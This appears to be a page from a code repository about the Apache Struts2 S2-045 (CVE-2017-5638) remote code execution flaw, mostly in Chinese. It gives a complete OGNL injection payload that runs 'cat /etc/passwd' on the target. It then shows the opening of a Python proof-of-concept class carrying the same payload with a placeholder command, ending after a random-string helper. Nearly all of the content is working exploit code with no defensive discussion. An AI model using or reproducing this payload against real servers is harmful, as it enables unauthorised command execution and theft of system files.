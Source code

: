 #### 读取文件

```java
%{(#fuck='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cat /etc/passwd').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

### POC

```python
#!/usr/bin/env python3

import random
import string
import requests

class S2_045_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'S2-045漏洞,又名CVE-2017-5638漏洞',
            'description': 'Struts2 Remote Code Execution Vulnerability, Apache Struts 2.3.32之前的2.3.x版本, 2.5.10.1之前的2.5.x版本',
            'date': '2017-03-02',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        self.capta = self.get_capta()
        self.headers = dict()
        self.headers['User-Agent'] = "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
        self.payload = r'''%{(#fuck='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cmd_data').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}'''
    
    def get_capta(self):
        
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """

        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta
```
